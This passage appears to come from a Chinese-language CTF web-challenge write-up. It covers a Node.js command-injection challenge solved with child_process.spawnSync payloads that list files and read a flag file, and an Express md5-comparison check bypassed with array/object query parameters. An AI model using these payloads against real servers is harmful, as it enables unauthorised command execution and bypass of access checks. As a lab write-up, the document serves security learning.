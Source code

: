 

## 336 过滤rce

过滤了exec，只能用spawnSync啦

```js
require('child_process').spawnSync('ls',['./']).stdout.toString()
require('child_process').spawnSync('cat',['fl001g.txt']).stdout.toString()
```



## 337 md5绕过

> ```js
> var express = require('express');
> var router = express.Router();
> var crypto = require('crypto');
> 
> function md5(s) {
> return crypto.createHash('md5')
>  .update(s)
>  .digest('hex');
> }
> 
> /* GET home page. */
> router.get('/', function(req, res, next) {
> res.type('html');
> var flag='xxxxxxx';
> var a = req.query.a;
> var b = req.query.b;
> if(a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)){
> 	res.end(flag);
> }else{
> 	res.render('index',{ msg: 'tql'});
> }
> 
> });
> 
> module.exports = router;
> ```
>
> 要求a和b长度相等，内容不同但其md5值相同

数组绕过，js中两个数组是不能直接用===判断相等的：

```
?a[a]=1&b[a]=2
```

```
执行如下代码：那么下面的结果都会是[object Object]flag{xxx}，其md5也就一样了
a={'a':'1'}
b={'a':'2'}

console.log(a+"flag{xxx}")
console.log(b+"flag{xxx}")
```
